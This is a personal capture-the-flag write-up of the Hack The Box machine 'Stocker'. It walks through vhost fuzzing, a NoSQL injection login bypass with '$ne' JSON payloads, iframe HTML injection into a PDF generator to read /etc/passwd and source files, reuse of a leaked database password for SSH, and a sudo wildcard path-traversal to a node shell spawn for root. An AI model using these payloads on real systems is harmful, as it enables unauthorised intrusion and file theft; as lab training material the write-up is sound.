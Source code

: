 # Stocker Helped-Through

Name: Stocker
Date:  25/06/2023
Difficulty: Easy  
Goals:  
- Learn some JS iframe coding
- Request smuggling broader than just json, I know of but have not done a HTTP request smuggle 
- Revise nosql injections
Learnt:
- Nested json
- Change the CONTENT TYPE PLEASE!
- 
Beyond Root:
- Write a malicious iframe for a project
- more..add

Both.. 
- [[Stocker-Notes.md]]
- [[Stocker-CMD-by-CMDs.md]]
..Will  be empty as this is a quick a Helped-Through as it needs to be to get the box done as a gateway to learning and writing Javascript especially Iframes. I do not have a web background, but I do enjoy web exploitation as part of a mix diet of exploits. I will be following along with [Ippsec](https://www.youtube.com/watch?v=fWMHh8GYqJE) as I saw during my lunch break today and thought how I have never manipulated iframes or made web application code; and I have no done a nosql injection in a while. Or done request smuggling through json.

<iframe width="560" height="315" src="https://www.youtube.com/embed/fWMHh8GYqJE" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Recon

Nothing from ping.
![ping](Screenshots/ping.png)
I rreran a nmap scan for [ubuntu bionic](https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4ubuntu0.5) from dorking `lauchpad 4ubuntu0.5`

`nikto` output a redirect to stocker.htb and nuclei found [[nginx-version-http___stocker.htb_]] running. `ffuf` for vhosts with 

```bash
ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ --mc all -fw 6
```

As shown:
![](ffuffindsdev.png)

Adding dev.stocker.htb to hosts file 
![](signinatdev.png)

## Exploit

![](demoingnosqlifail.png)

Because this Node.js (as it has libraries and frameworks for handling JSON ) *and web applications commonly use json to handle requests* convert  `Content-Type: application/x-www-form-urlencoded` to `Content-Type: application/json` . 

```json
username[$ne]=ippsec&password[$ne]=password
// Convert to
{
"username":"ippsec", 
"password":"password" 
}
```

With all attacks that involve JSON or backend that can handle JSON you should always send broken JSON for the error message.

![](nodeerrorfromjson.png)

And the full error message:
```js
SyntaxError: Unexpected end of JSON input<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/var/www/dev/node_modules/body-parser/lib/types/json.js:89:19)<br> &nbsp; &nbsp;at /var/www/dev/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:203:9)<br> &nbsp; &nbsp;at invokeCallback (/var/www/dev/node_modules/raw-body/index.js:231:16)<br> &nbsp; &nbsp;at done (/var/www/dev/node_modules/raw-body/index.js:220:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/dev/node_modules/raw-body/index.js:280:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:513:28)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1359:12)<br> &nbsp; &nbsp;at process.processTicksAndRejections (node:internal/process/task_queues:82:21)</pre>
```

This confirms it is accepting JSON object
- Leaks /var/www/dev

Given that this is more just structured data conversion I think the best thing to do is just to call this Content-type-conversion until I have found a similar techniques as all that will be returned when searching for this would be HTTP request smuggling. [Burpplugin](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278)
```json
{
"username":{
"$ne":"user"}, 
"password":{
"$ne":"passwd"}
}
```

We can then change the request to:
![](nestedjson.png)

A very expensive bin.
![](buythestock.png)

## Foothold

Lets buy a bin.
![](addabin.png)

Review our purchase 
![](presscart.png)

Purchase ID
![](purchaseid.png)

```
64988ad6f286ddc6c0375d05
```

Click on here
![](pdfdemo.png)

Add an axe and purchase another bin to make wheelie-bin-chariot of violence. 
![](addanaxe.png)

![](binandaxeid.png)

Comparing the ids they are really similar, this is not md5 or a hash
```
64988ba3f286ddc6c0375d0a
64988ad6f286ddc6c0375d05
same - changed - same - changed
64988 ba3f286 ddc6c0375d 0a
64988 ad6f286 ddc6c0375d 05
```

PDF?
- `exiftool`
- vulnerable, exploits? - check it manual as below or dork
- html injectable? 

Check for exploit with `Skia/PDF m108 exploit` and the part of this box that got excited to try this was, because it is chromium put an iframe in it. 
![](skia.png)

Firstly the intial request:
![](initialreqforhtlminject.png)

```json
{
// Pick a field that will be displayed in the html
"title":"Bin<iframe src='file:///etc/passwd'></iframe>",
},
```

And proof:
![](passwdpoc.png)

We can add stuff to this to improve this skip to the beyond root section where I add some features  
```js
<iframe src='file:///etc/passwd' height='1000' width='1000'></iframe>

<iframe src='file:///var/www/dev/index.js' height='1000' width='1000'></iframe>
```

![](passwdindev.png)

```js
// TODO: Configure loading from dotenv for production
const db = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

angoose user has reused the `IHeardPassphrasesArePrettySecure` password so ssh in!
![](wearetheangoose.png)

## PrivEsc

The scripts that can run as sudo: 
![](scripts.png)

Because of the wild card we can directory traversal as \* being anything can be: 
```bash
sudo /usr/bin/node /usr/local/scripts/../../../dev/shm/ippsec.js
```

[node shell gtfobins](https://gtfobins.github.io/gtfobins/node/#shell)
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

And root
![](root.png)

## Beyond Root

Iframe research

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp
https://www.invicti.com/blog/web-security/frame-injection-attacks/
https://owasp.org/www-community/attacks/Clickjacking
https://portswigger.net/web-security/clickjacking
https://blog.logrocket.com/the-ultimate-guide-to-iframes/

html injection
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection
https://www.invicti.com/learn/html-injection/
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection

- Make a malicious PDF 
- Malicious Web pages 

[regex in sudoers file](https://www.youtube.com/watch?v=fWMHh8GYqJE)

[read 0xdf](https://0xdf.gitlab.io/2023/06/24/htb-stocker.html)